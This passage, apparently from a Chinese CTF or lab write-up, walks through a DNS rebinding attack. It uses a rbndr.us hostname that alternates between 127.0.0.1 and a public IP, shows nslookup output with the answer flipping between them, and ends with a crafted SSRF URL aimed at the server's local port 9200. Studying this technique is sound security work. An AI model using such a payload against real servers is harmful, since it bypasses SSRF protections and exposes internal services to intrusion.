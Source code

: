

### 手速！手速！

现在，我们需要一个DNS Rebinding的服务。

这里使用的是一个网上的开发服务，访问 https://lock.cmpxchg8b.com/rebinder.html?tdsourcetag=s_pctim_aiomsg 。

填入 A和B的地址：

- A: 127.0.0.1
- B: 101.132.189.74

DNS解析会在这两个结果IP之间随机返回。

之后，在本地进行DNS测试，使用host或者nslookup指令

```bash
> nslookup 6584bd4a.7f000001.rbndr.us
服务器:  UnKnown
Address:  fe80::1

非权威应答:
名称:    6584bd4a.7f000001.rbndr.us
Address:  127.0.0.1

==========================================

> nslookup 6584bd4a.7f000001.rbndr.us
服务器:  UnKnown
Address:  fe80::1

非权威应答:
名称:    6584bd4a.7f000001.rbndr.us
Address:  127.0.0.1

==========================================

> nslookup 6584bd4a.7f000001.rbndr.us
服务器:  UnKnown
Address:  fe80::1

非权威应答:
名称:    6584bd4a.7f000001.rbndr.us
Address:  101.132.189.74
```

当访问 6584bd4a.7f000001.rbndr.us 时，结果可能为 127.0.0.1 或者 101.132.189.74。

因为 6584bd4a.7f000001.rbndr.us 域名解析的TTL（存活时间）太小了，几乎是瞬间失效，因此每次都要查询。

现在可以构造出精心设计的URL参数了：

```
http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200
```
